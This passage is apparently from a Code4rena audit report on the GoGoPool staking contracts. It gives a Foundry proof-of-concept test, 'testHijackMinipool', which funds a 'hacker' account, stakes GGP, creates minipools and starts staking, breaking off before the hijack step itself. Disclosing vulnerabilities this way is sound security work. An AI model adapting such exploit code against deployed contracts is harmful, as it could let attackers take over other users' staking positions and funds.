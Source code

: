 ### Foundry POC

The POC will demonstrate scenario #1.

Add the following test to `MinipoolManager.t.sol`:
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/test/unit/MinipoolManager.t.sol#L175
```
	function testHijackMinipool() public {
		uint256 duration = 2 weeks;
		uint256 depositAmt = 1000 ether;
		uint256 avaxAssignmentRequest = 1000 ether;
		uint256 rewards = 10 ether;
		uint256 expectedRewards = (rewards/2)+(rewards/2).mulWadDown(dao.getMinipoolNodeCommissionFeePct());
		uint256 validationAmt = depositAmt + avaxAssignmentRequest;
		uint128 ggpStakeAmt = 100 ether;
		address hacker = address(0x1337);
		// Fund hacker with exact AVAX and gpp
		vm.deal(hacker, depositAmt*2);
		dealGGP(hacker, ggpStakeAmt);
		// Fund nodeOp with exact AVAX and gpp
		nodeOp = address(0x123);
		vm.deal(nodeOp, depositAmt);
		dealGGP(nodeOp, ggpStakeAmt);

		// fund ggAVAX
		address lilly = getActorWithTokens("lilly", MAX_AMT, MAX_AMT);
		vm.prank(lilly);
		ggAVAX.depositAVAX{value: MAX_AMT}();
		assertEq(lilly.balance, 0);

		vm.startPrank(hacker);
		// Hacker stakes GGP
		ggp.approve(address(staking), ggpStakeAmt);
		staking.stakeGGP(ggpStakeAmt);

		// Create minipool for hacker
		MinipoolManager.Minipool memory hackerMp = createMinipool(depositAmt, avaxAssignmentRequest, duration);
		vm.stopPrank();

		vm.startPrank(nodeOp);
		// nodeOp stakes GGP
		ggp.approve(address(staking), ggpStakeAmt);
		staking.stakeGGP(ggpStakeAmt);

		// Create minipool for nodeOp
		MinipoolManager.Minipool memory nodeOpMp = createMinipool(depositAmt, avaxAssignmentRequest, duration);
		vm.stopPrank();

		// Rialto stakes both hackers and nodeOp in avalanche 
		vm.startPrank(address(rialto));
		minipoolMgr.claimAndInitiateStaking(nodeOpMp.nodeID);
		minipoolMgr.claimAndInitiateStaking(hackerMp.nodeID);

		// Update that staking has started
		bytes32 txID = keccak256("txid");
		minipoolMgr.recordStakingStart(nodeOpMp.nodeID, txID, block.timestamp);
		minipoolMgr.recordStakingStart(hackerMp.nodeID, txID, block.timestamp);

		// Skip 14 days of staking duration
		skip(duration);
```